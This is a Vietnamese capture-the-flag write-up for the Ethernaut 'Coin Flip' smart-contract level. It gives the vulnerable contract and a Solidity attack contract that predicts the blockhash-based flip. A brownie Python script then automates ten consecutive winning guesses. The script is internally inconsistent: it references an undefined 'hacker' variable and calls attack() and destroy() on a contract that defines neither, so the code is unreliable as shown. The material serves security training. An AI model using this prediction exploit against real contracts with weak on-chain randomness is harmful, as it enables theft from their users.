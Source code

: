 # Level 3: Coin Flip
## ★★☆☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
## Phân tích
- Việc để đoán đúng 10 lần flip liên tiếp gần như là bất khả thi, ta sẽ tìm 1 cách khác.
- Trong contract ta để ý biến side được tính toán và sau đó so sánh đối số _guess :
```
    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;

```
- Điều chúng ta cần làm là tách function ra 1 cái riêng để tính toán là xong.

## Solution
**Target**: 10 lần consecutive win liên tiếp.  

- Compile và deploy contract này trên remix, sau đó gọi hàm ``flip()`` 10 lần:  

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.6 <0.9.0;
contract Attack {
    CoinFlip private immutable target;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target) {
        target = CoinFlip(_target);
    }

    function flip() external {
        bool guess = _guess();
        require(target.flip(guess), "guess failed");
    }

    function _guess() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        return coinFlip == 1 ? true : false;
    }
}
```
- Một script bằng python để automate quá trình này cho nhanh:  
```python
from brownie import accounts, config, interface, web3, CoinFlip, CoinFlipAttack

def attack(target, account):
    deploy_attack = CoinFlipAttack.deploy(target, {"from": hacker})
    coinflip = CoinFlip.at(target)
    print(f'Address originating the attack:  {deploy_attack.address}')
    for i in range (0, 10):
        deploy_attack.attack({'from': account, 'gas_limit':250000, 'allow_revert': True})
    print(f'Number:  {coinflip.consecutiveWins()}')
    deploy_attack.destroy({'from': account})
    
def main(target):
    account = accounts.add(config['wallets']['from_key'])
    attack(target, account)
```
> Note: Thư viện ``brownie`` cung cấp cho ta các phương thức để communicate với ethereum network tương tự như ví metamask.
- Check lại số lần win:
```javascript
await contract.consecutiveWins
10
```
**Submit** -> Done

## Reference



